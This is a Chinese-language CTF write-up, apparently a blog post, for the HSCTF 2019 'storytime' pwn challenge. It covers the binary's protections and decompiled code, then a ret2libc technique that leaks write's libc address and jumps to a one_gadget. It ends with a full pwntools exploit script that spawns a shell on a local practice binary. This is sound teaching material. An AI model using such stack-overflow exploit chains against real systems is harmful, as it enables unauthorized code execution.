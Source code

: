 ```yaml
---
title: nightmare 2.15.HS2019-storytime-wp
date: 2023-08-19 21:24:42
tags:
- CTF
- pwn
- HS2019
- stack 
- ret2libc
- nightmare
categories:
- pwn-wp
---
```


[相关资源](https://github.com/guyinatuxedo/nightmare/tree/master/modules/08-bof_dynamic/hs19_storytime)  

## 文件分析

文件夹包含`libc.so.6`，关于替换动态链接库，可见 https://antel0p3.github.io/2023/05/30/change_libc/

```sh
$ checksec storytime
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$ ./storytime
HSCTF PWNNNNNNNNNNNNNNNNNNNN
Tell me a story:

```

## 代码分析

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[48]; // [rsp+0h] [rbp-30h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  write(1, "HSCTF PWNNNNNNNNNNNNNNNNNNNN\n", 0x1DuLL);
  write(1, "Tell me a story: \n", 0x12uLL);
  read(0, buf, 0x190uLL);
  return 0;
}
```

明显存在栈溢出

## 攻击方法

1. 通过调用`write@plt`（第二个参数为`write@got`）来泄露write实际地址进而获取libc基地址，输出后跳转回main待后续攻击

   注意通常只有**程序执行过**的库函数会出现在plt和got中，所以不能直接用`puts`来输出

2. 找到`one_gadget`或构造system pop链，获取shell

   one_gadget安装使用：

   ```sh
   $ apt install ruby
   $ gem install one_gadget
   
   $ one_gadget libc.so.6
   0x45216 execve("/bin/sh", rsp+0x30, environ)
   constraints:
     rax == NULL
   
   0x4526a execve("/bin/sh", rsp+0x30, environ)
   constraints:
     [rsp+0x30] == NULL
   
   0xf02a4 execve("/bin/sh", rsp+0x50, environ)
   constraints:
     [rsp+0x50] == NULL
   
   0xf1147 execve("/bin/sh", rsp+0x70, environ)
   constraints:
     [rsp+0x70] == NULL
   ```

   以上得到的地址在满足条件下可以直接执行`/bin/sh`，可以作为跳转地址，都尝试失败后就只能通过system获取shell了

## exp

```python
from pwn import *
import sys

pty = process.PTY
context(os='linux', arch='i386', log_level='debug')

mode = ''
if len(sys.argv) > 1:
    mode = sys.argv[1]

proc = process("./storytime")
libc = ELF('./libc.so.6')
belf = ELF("./storytime")

def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(): return proc.recv()
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))


gscript = '''
    b main
    b * 0x40069b
    c
'''
if mode == '-d':
    gdb.attach(proc, gdbscript=gscript)

ret = 0x40048e
rdi_ret = 0x400703
rsi_r15_ret = 0x400701
rax_ret = 0x33544
main = 0x40062E
gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

payload = b'h'*0x38		# 填充到ret address
payload += p64(rdi_ret) + p64(1) 	# write(1, write@got, xxx)   第三个参数因为本身就大于write地址长度，可以不管
payload += p64(rsi_r15_ret) + p64(belf.got['write']) + p64(0)
payload += p64(belf.plt['write']) + p64(main)		# 跳转回main
sla(b'story:', payload)
# 获取libc base
libc_base = ga() - libc.sym['write']
success("libc base: " + hex(libc_base))

payload = b'h'*0x38 
payload += p64(libc_base + gadgets[0]) # 跳转执行gadgets
sla(b'story:', payload)

pi()
pause()
```

